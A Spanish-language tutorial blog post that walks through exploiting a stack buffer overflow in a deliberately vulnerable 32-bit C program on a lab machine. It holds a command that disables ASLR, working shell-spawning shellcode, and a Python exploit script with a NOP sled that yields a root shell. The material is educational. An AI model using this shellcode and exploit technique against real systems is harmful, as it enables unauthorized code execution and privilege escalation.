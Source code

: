 ```yaml
---
title: "Stack Buffer Overflow Linux 32 Bit (Part I)"
layout: single
excerpt: "En este artículo enseñó a crear y usar un exploit de desbordamiento del buffer para ganar un Shell abusando de funciones inseguras como strcpy, getenv etc. También muestro como funciona el binario a bajo nivel, los registros ESP, EIP y como emplear herramientas como gdb o hexedit para editar binarios en hexadecimal."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/154846533-363ec43b-7a02-4a8c-b997-dd499dd09fb0.jpg"
  teaser_home_page: true
  icon: 
categories:
  - Vulnearabilities
tags:
  - CVE
  - Set Password
  - Metasploit
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/154846533-363ec43b-7a02-4a8c-b997-dd499dd09fb0.jpg">
</p>

El desbordamiento del búfer o *Buffer Overflow* en Inglés, sucede cuando el programador no hace la suficiente desinfección en el código de un programa. Esto permite sobrepasar el búfer definido y por ello apuntar a ciertos registros para inyectar `shellcode` y derivar a una ejecución de código arbitrario en el sistema.

En este artículo aprovecharemos la función `strcpy` considerada como insegura para sobrepasar un búfer definido y de este modo sobrescribir los registros *ESP*, *EIP* para ganar *RCE*. No tendremos ningún tipo de restricción como ASLR (aleatorización en las direcciones de memoria) o DEP (prevención de ejecución de datos).

Para desactivar ASLR es muy facil, enviamos un 0 como input a `/proc/sys/kernel/randomize_va_space` y listo.

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

Para comenzar necesitamos un binario vulnerable a *BoF*, por eso he encontrado este script basico en C que hace uso de `strcpy`.

```c
#include <string.h>
#include <stdio.h>
void main(int argc, char *argv[]) {
        copier(argv[1]);
        printf("Done!\n");
}
int copier(char *str) {
        char buffer[100];
        strcpy(buffer, str);
}
```

Este script no tiene ninguna utilidad, lo que hace básicamente es copiar el primer argumento que le pasemos como *input* y guardarlo en un búfer e imprimir *Done* por pantalla, la vulnerabilidad está en el uso de `strcpy`.

Para la compilación este debe ser en 32 bits, por ello será necesario usar el parámetro `-m32` de `gcc`, de lo contrario os lo creará en 64 bits.

![https://imgur.com/fn2Pckf.png](https://imgur.com/fn2Pckf.png)
![https://imgur.com/pzcdTJT.png](https://imgur.com/pzcdTJT.png)

> Los parámetros utilizados en la compilación son para desactivar algunas restricciones.

Esto nos genera un binario ejecutable, entonces probamos a pasarle una A para verificar que funcione.

![https://imgur.com/UdKB266.png](https://imgur.com/UdKB266.png)

Bien, funciona, ahora vamos a usar `gdb` para monitorear el uso del programa a bajo nivel, le pasamos el parámetro `-q` para la lectura de símbolos y ejecutamos el comando `list` para ver el código.

![https://imgur.com/rRySz6h.png](https://imgur.com/rRySz6h.png)

Haremos un `breakpoint` en la línea 10, ya que la vulnerabilidad no sucede en la función `main`, usamos el comando `break 10`.

![https://imgur.com/P08ILaY.png](https://imgur.com/P08ILaY.png)

Le pasamos 4 bytes como argumento al programa con el comando `run`.

![https://imgur.com/bgUgHwh.png](https://imgur.com/bgUgHwh.png)

Una vez hecho, usamos el comando `info registers` para ver los registros.

![https://imgur.com/25SPQqD.png](https://imgur.com/25SPQqD.png)

Listamos el registro `ESP` con `x/40x $esp`. 

![image](https://user-images.githubusercontent.com/69093629/154841169-af286bb4-b75b-48e7-b64e-cc44f38bd475.jpg)

Como se puede apreciar se ha sobrescrito una direccion de memoria con las 4 As en ANSI.

Ahora bien, ¿que sucede si le pasamos al programa mas 100 As?, vamos a comprobarlo.

![https://imgur.com/Jig6VcD.png](https://imgur.com/Jig6VcD.png)

Se ha producido un desbordamiento del búfer y el binario ha crasheado.

Me he creado un pequeño script en Python que imprima por pantalla mas de 100 As y lo he exportando como BoF.

```python
#!/usr/bin/python3
print("A"*116)
```
![https://imgur.com/ql9LNNA.png](https://imgur.com/ql9LNNA.png)

Le pasamos las As y miramos el registro ESP.

![image (2)](https://user-images.githubusercontent.com/69093629/154843836-0299b369-0d73-4f69-9dbd-ed282d6a0113.jpg)

Como veis están todas las A que le hemos pasado al binario, esto ha sobrescrito hasta la dirección de retorno, vamos a modificar el `retturn address` con `hexedit`, ejecutamos `hexedit` + nombre del binario.

![https://imgur.com/yrbDTpc.png](https://imgur.com/yrbDTpc.png)

Y cambiamos los últimos valores.

![https://imgur.com/olJtCYE.png](https://imgur.com/olJtCYE.png)

Ahora volvemos a ver el registro ESP.

![image (3)](https://user-images.githubusercontent.com/69093629/154845769-4705cb24-ded4-4929-a108-cd7a7e1bfdf4.jpg)

La dirección de retorno ha cambiado, pero está en `little endian`, es decir al revés.

Ahora vamos a calcular el `offset`, es decir las A que tenemos que introducir antes de que el programa corrompa. Para ello hay una herramienta llamada `pattern_create` la cual te crea una cadena especial para luego computar el `offset` con `pattern_offset`.

Le pasé los bytes en los que corrompe el programa.

![https://imgur.com/6u3tOVD.png](https://imgur.com/6u3tOVD.png)

Una vez la cadena creada se la pasamos al programa como argumento.

![https://imgur.com/6szLUpb.png](https://imgur.com/6szLUpb.png) 

La dirección que reporta la copiamos y la pegamos en `pattern_offset`.

![https://imgur.com/Rgoo3Rw.png](https://imgur.com/Rgoo3Rw.png)

Ahí esta, el `offset` son 112 bytes. Ahora haremos uso de NOPS para rellenar los bytes faltantes antes del `shellcode` y llevar el flujo del programa sin problemas.

Necesitamos un `shellcode` para ganar acceso con un Shell, para ello usé el siguiente de 32 bytes.

```bash
\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80
```

Y me he creado un pequeño exploit en Python2 con el siguiente código.

```python
#!/usr/bin/python2

nops = '\x90' * 64
shellcode = (
'\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2' +
'\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89' +
'\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
)
padding = 'A' * (112 - 64 - 32)
eip = "\xb0\xd3\xff\xff"
print nops + shellcode + padding + eip
```

Lo que hace es generar 64 bytes de NOPS `x90` y guardarlos en la variable NOPS, después defino otra variable `shellcode` con el `shellcode`, valga la redundancia, y en la variable `padding` hago los cálculos restando los 112 bytes del `offset`, menos los 64 de los NOPS y los 32 del `shellcode` y creo la cadena de A's del número restante. En la dirección EIP introducimos una del trineo de NOPS en `little endian` para evitar errores, ya que esta estará apuntando a la siguiente instrucción a ejecutar. Y finalmente quedaría algo así.

`\x90\x90.. → \x31\xc0\x89.. → AAAA.. → \xb0\xd3\xff\xff`

Si miramos el resultado en hexadecimal con `hexedit` veremos algo así.

![https://imgur.com/0YAugr1.png](https://imgur.com/0YAugr1.png)

Exporto el exploit como `exp`.

![https://imgur.com/cPzxbeO.png](https://imgur.com/cPzxbeO.png)

Y le hacemos un `cat` al archivo exportado.

![https://imgur.com/KaYXfl8.png](https://imgur.com/KaYXfl8.png)

Y hemos ganado un Shell como `root` en el sistema.

